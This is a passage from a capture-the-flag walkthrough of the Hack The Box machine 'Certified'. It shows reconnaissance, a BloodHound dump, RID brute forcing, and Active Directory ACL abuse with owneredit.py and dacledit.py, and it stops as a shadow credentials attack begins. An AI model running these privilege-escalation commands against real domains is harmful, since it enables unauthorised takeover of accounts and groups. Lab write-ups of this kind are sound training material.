


## Summary

With the provided `credentials` of `Judith Mader` it is possible to `dump` the `configuration` of the `Active Directory` which shows the start of the `attack path` by abusing `Access Control Entries (ACE)` and `Access Control Lists (ACL)`. This makes it so that the user `judith.mader` can `takeover` the `Management group` to `escalate privileges` to `management_svc` by using the `shadow credentials` technique. The user `management_svc` has `GenericAll` on `ca_operator` which can be abused by using `shadow credentials` again to `escalate privileges` even further. For the last step and to achieve `Domain Dominance` it is necessary to use `ESC9` of the `Active Directory Certificate Services (ADCS)` attack path.

## Table of Contents

- [Introduction](#Introduction)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Active Directory Configuration Dump](#Active-Directory-Configuration-Dump)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
        - [RID Brute Forcing](#RID-Brute-Forcing)
- [Tooling Preparation](#Tooling-Preparation)
    - [Set Time and Date](#Set-Time-and-Date)
- [ACE / ACL Abuse](#ACE--ACL-Abuse)
    - [Make judith.mader Owner of the Management Group](#Make-judithmader-Owner-of-the-Management-Group)
- [Shadow Credentials Attack](#Shadow-Credentials-Attack)
    - [Add judith.mader to Management Group](#Add-judithmader-to-Management-Group)
    - [Privilege Escalation to management_svc](#Privilege-Escalation-to-management_svc)
    - [Privilege Escalation to ca_operator](#Privilege-Escalation-to-ca_operator)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [Active Directory Certificate Services (AD CS)](#Active-Directory-Certificate-Services-AD-CS)
        - [ESC9: No Security Extensions](#ESC9-No-Security-Extensions)
- [user.txt](#usertxt)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Introduction

As is common in real life Windows pentests, you will start the Certified box with credentials for the following account: `judith.mader / judith09`.

| Username     | Password |
| ------------ | -------- |
| judith.mader | judith09 |

## Reconnaissance

Even if we had `credentials` provided by `Hack The Box` we started with `Reconnaissance` and performed the usual `port scans`.

### Port Scanning

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.179.224
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 20:04 CET
Nmap scan report for 10.129.179.224
Host is up (0.018s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-03 02:04:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-03T02:06:04+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-03T02:06:05+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-03T02:06:04+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-03T02:06:05+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-03T02:05:27
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.16 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.179.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 20:06 CET
Nmap scan report for 10.129.179.224
Host is up (0.018s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-03 02:09:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-03T02:10:53+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-03T02:10:53+00:00; +7h00m00s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-03T02:10:53+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-03T02:10:53+00:00; +7h00m00s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49729/tcp open  msrpc         Microsoft Windows RPC
60912/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-03T02:10:14
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 247.09 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.179.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 20:15 CET
Nmap scan report for certified.htb (10.129.179.224)
Host is up (0.020s latency).
Not shown: 997 open|filtered udp ports (no-response)
PORT    STATE SERVICE      VERSION
53/udp  open  domain       (generic dns response: NOTIMP)
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-03 02:15:25Z)
123/udp open  ntp          NTP v3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55475.58 seconds
```

### Domain Enumeration

As second step we grabbed information about the `Domain Controller` by using `enum4linux-ng` and added `certified.htb` as well as `dc01.certified.htb` to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ ./enum4linux-ng.py 10.129.179.224
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.179.224
[*] Username ......... ''
[*] Random Username .. 'tgvcarfy'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.179.224    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.179.224    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: certified.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.179.224    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.179.224    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 10.129.179.224    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: CERTIFIED                                                                                                                                                                                                              
DNS domain: certified.htb                                                                                                                                                                                                                   
FQDN: DC01.certified.htb                                                                                                                                                                                                                    
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: CERTIFIED                                                                                                                                                                                                                   

 ===========================================
|    RPC Session Check on 10.129.179.224    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 10.129.179.224    |
 =====================================================
[+] Domain: CERTIFIED
[+] Domain SID: S-1-5-21-729746778-2675978091-3820388244
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 10.129.179.224    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 =======================================
|    Users via RPC on 10.129.179.224    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 10.129.179.224    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Shares via RPC on 10.129.179.224    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 10.129.179.224    |
 ===========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    Printers via RPC for 10.129.179.224    |
 ===========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 12.16 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.179.224  certified.htb
10.129.179.224  dc01.certified.htb
```

### Active Directory Configuration Dump

After those two steps we `dumped` the `configuration` of the `Active Directory` by using `BloodHound`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ bloodhound-python -u 'judith.mader' -p 'judith09' -d 'certified.htb' -dc 'dc01.certified.htb' -ns 10.129.179.224 -c all --zip
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 06S
INFO: Compressing output into 20241102201015_bloodhound.zip
```

A quick look at the `owned user` and it's `capabilities` showed the `WriteOwer` permission on the `Management group` which allowed us to `take over` that `group` and to `add` ourselves to it.



### Enumeration of Port 445/TCP

But just to generate the full picture of potential attack capabilities we checked port `445/TCP` and since we had `read access` on `IPC$` we decided to go for `RID Brute Forcing` to get a `easy list` of `all available users`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.179.224 -u 'judith.mader' -p 'judith09' --shares
SMB         10.129.179.224  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.179.224  445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.179.224  445    DC01             [*] Enumerated shares
SMB         10.129.179.224  445    DC01             Share           Permissions     Remark
SMB         10.129.179.224  445    DC01             -----           -----------     ------
SMB         10.129.179.224  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.179.224  445    DC01             C$                              Default share
SMB         10.129.179.224  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.179.224  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.179.224  445    DC01             SYSVOL          READ            Logon server share
```

#### RID Brute Forcing

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.179.224 -u 'judith.mader' -p 'judith09' --rid-brute
SMB         10.129.179.224  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.179.224  445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.129.179.224  445    DC01             498: CERTIFIED\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.179.224  445    DC01             500: CERTIFIED\Administrator (SidTypeUser)
SMB         10.129.179.224  445    DC01             501: CERTIFIED\Guest (SidTypeUser)
SMB         10.129.179.224  445    DC01             502: CERTIFIED\krbtgt (SidTypeUser)
SMB         10.129.179.224  445    DC01             512: CERTIFIED\Domain Admins (SidTypeGroup)
SMB         10.129.179.224  445    DC01             513: CERTIFIED\Domain Users (SidTypeGroup)
SMB         10.129.179.224  445    DC01             514: CERTIFIED\Domain Guests (SidTypeGroup)
SMB         10.129.179.224  445    DC01             515: CERTIFIED\Domain Computers (SidTypeGroup)
SMB         10.129.179.224  445    DC01             516: CERTIFIED\Domain Controllers (SidTypeGroup)
SMB         10.129.179.224  445    DC01             517: CERTIFIED\Cert Publishers (SidTypeAlias)
SMB         10.129.179.224  445    DC01             518: CERTIFIED\Schema Admins (SidTypeGroup)
SMB         10.129.179.224  445    DC01             519: CERTIFIED\Enterprise Admins (SidTypeGroup)
SMB         10.129.179.224  445    DC01             520: CERTIFIED\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.179.224  445    DC01             521: CERTIFIED\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.179.224  445    DC01             522: CERTIFIED\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.179.224  445    DC01             525: CERTIFIED\Protected Users (SidTypeGroup)
SMB         10.129.179.224  445    DC01             526: CERTIFIED\Key Admins (SidTypeGroup)
SMB         10.129.179.224  445    DC01             527: CERTIFIED\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.179.224  445    DC01             553: CERTIFIED\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.179.224  445    DC01             571: CERTIFIED\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.179.224  445    DC01             572: CERTIFIED\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.179.224  445    DC01             1000: CERTIFIED\DC01$ (SidTypeUser)
SMB         10.129.179.224  445    DC01             1101: CERTIFIED\DnsAdmins (SidTypeAlias)
SMB         10.129.179.224  445    DC01             1102: CERTIFIED\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.179.224  445    DC01             1103: CERTIFIED\judith.mader (SidTypeUser)
SMB         10.129.179.224  445    DC01             1104: CERTIFIED\Management (SidTypeGroup)
SMB         10.129.179.224  445    DC01             1105: CERTIFIED\management_svc (SidTypeUser)
SMB         10.129.179.224  445    DC01             1106: CERTIFIED\ca_operator (SidTypeUser)
SMB         10.129.179.224  445    DC01             1601: CERTIFIED\alexander.huges (SidTypeUser)
SMB         10.129.179.224  445    DC01             1602: CERTIFIED\harry.wilson (SidTypeUser)
SMB         10.129.179.224  445    DC01             1603: CERTIFIED\gregory.cameron (SidTypeUser)
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.179.224 -u 'judith.mader' -p 'judith09' --rid-brute | grep 'SidTypeUser' | awk '{print $6}' 
CERTIFIED\Administrator
CERTIFIED\Guest
CERTIFIED\krbtgt
CERTIFIED\DC01$
CERTIFIED\judith.mader
CERTIFIED\management_svc
CERTIFIED\ca_operator
CERTIFIED\alexander.huges
CERTIFIED\harry.wilson
CERTIFIED\gregory.cameron
```

| Usernames       |
| --------------- |
| judith.mader    |
| management_svc  |
| ca_operator     |
| alexander.huges |
| harry.wilson    |
| gregory.cameron |

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ cat usernames.txt 
judith.mader
management_svc
ca_operator
alexander.huges
harry.wilson
gregory.cameron
```

## Tooling Preparation

As we noticed earlier we went for the `Access Control Entries (ACE)` and `Access Control List (ACL)` abuse by using `dacledit.py`, `msada_guids.py` and `owneredit.py`.

- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#dacleditpy](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#dacleditpy)
- [https://raw.githubusercontent.com/fortra/impacket/204c5b6b73f4d44bce0243a8f345f00e308c9c20/examples/dacledit.py](https://raw.githubusercontent.com/fortra/impacket/204c5b6b73f4d44bce0243a8f345f00e308c9c20/examples/dacledit.py)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ wget https://raw.githubusercontent.com/fortra/impacket/204c5b6b73f4d44bce0243a8f345f00e308c9c20/examples/dacledit.py
--2024-11-02 20:25:16--  https://raw.githubusercontent.com/fortra/impacket/204c5b6b73f4d44bce0243a8f345f00e308c9c20/examples/dacledit.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47672 (47K) [text/plain]
Saving to: ‘dacledit.py’

dacledit.py                                                100%[========================================================================================================================================>]  46.55K  --.-KB/s    in 0.01s   

2024-11-02 20:25:16 (4.53 MB/s) - ‘dacledit.py’ saved [47672/47672]
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ cat dacledit.py 
<--- CUT FOR BREVITY --->
#from impacket.msada_guids import SCHEMA_OBJECTS, EXTENDED_RIGHTS
from msada_guids import SCHEMA_OBJECTS, EXTENDED_RIGHTS
<--- CUT FOR BREVITY --->
```

- [https://raw.githubusercontent.com/byt3bl33d3r/CrackMapExec/refs/heads/master/cme/helpers/msada_guids.py](https://raw.githubusercontent.com/byt3bl33d3r/CrackMapExec/refs/heads/master/cme/helpers/msada_guids.py)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ wget https://raw.githubusercontent.com/byt3bl33d3r/CrackMapExec/refs/heads/master/cme/helpers/msada_guids.py
--2024-11-02 20:27:13--  https://raw.githubusercontent.com/byt3bl33d3r/CrackMapExec/refs/heads/master/cme/helpers/msada_guids.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 125831 (123K) [text/plain]
Saving to: ‘msada_guids.py’

msada_guids.py                                             100%[========================================================================================================================================>] 122.88K  --.-KB/s    in 0.03s   

2024-11-02 20:27:13 (3.61 MB/s) - ‘msada_guids.py’ saved [125831/125831]
```

- [https://raw.githubusercontent.com/fortra/impacket/5c477e71a60e3cc434ebc0fcc374d6d108f58f41/examples/owneredit.py](https://raw.githubusercontent.com/fortra/impacket/5c477e71a60e3cc434ebc0fcc374d6d108f58f41/examples/owneredit.py)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ wget https://raw.githubusercontent.com/fortra/impacket/5c477e71a60e3cc434ebc0fcc374d6d108f58f41/examples/owneredit.py
--2024-11-02 20:27:47--  https://raw.githubusercontent.com/fortra/impacket/5c477e71a60e3cc434ebc0fcc374d6d108f58f41/examples/owneredit.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23243 (23K) [text/plain]
Saving to: ‘owneredit.py’

owneredit.py                                               100%[========================================================================================================================================>]  22.70K  --.-KB/s    in 0.008s  

2024-11-02 20:27:47 (2.71 MB/s) - ‘owneredit.py’ saved [23243/23243]
```

### Set Time and Date

To not running into any issues with `Kerberos` we stopped the `time synchronization` on `VirtualBox` and synced our `system time` with the `box` by using `net time`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ sudo systemctl stop systemd-timesyncd
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ sudo net time set -S 10.129.179.224
```

## ACE / ACL Abuse
### Make judith.mader Owner of the Management Group

Then we `registered` the user `judith.mader` as new owner of the `Management group` by using `owneredit.py`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ python3 owneredit.py -k 'certified.htb/judith.mader:judith09' -dc-ip 10.129.179.224 -action write -new-owner 'judith.mader' -target 'Management' -debug

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[-] CCache file is not found. Skipping...
[+] The specified path is not correct or the KRB5CCNAME environment variable is not defined
[+] Trying to connect to KDC at 10.129.179.224:88
[+] Trying to connect to KDC at 10.129.179.224:88
[+] Trying to connect to KDC at 10.129.179.224:88
/media/sf_cybersecurity/notes/HTB/Machines/Certified/files/owneredit.py:405: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
[+] Initializing domainDumper()
[+] Target principal found in LDAP (Management)
[+] Found new owner SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[+] Attempt to modify the OwnerSid
[*] OwnerSid modified successfully!
```

## Shadow Credentials Attack

### Add judith.mader to Management Group

Now we added `judith.mader` itself to the `Management group` to then proceed with our `privilege escalation` through the `Active Directory`. First of all we gave us `FullControl` over the `Management group`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20241103-045646.bak
[*] DACL modified successfully!
```

Then we used `net rpc` to `add` her to the `group`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ net rpc group addmem 'Management' 'judith.mader' -U 'certified.htb'/'judith.mader'%'judith09' -S 'dc01.certified.htb'
```

We verified the `configuration change` by using `bloodyAD`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
└─$ bloodyAD --host 10.129.179.224 -d 'certified.htb' -u 'judith.mader' -p 'judith09' get object Management --attr member

distinguishedName: CN=Management,CN=Users,DC=certified,DC=htb
member: CN=management service,CN=Users,DC=certified,DC=htb; CN=Judith Mader,CN=Users,DC=certified,DC=htb
```

### Privilege Escalation to management_svc

By using the tool `pyWhisker` we performed the actual `Shadow Credentials Attack` on the user `management_svc`. First of all we `listed` the available `devices` to grab their `IDs`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certified/files]
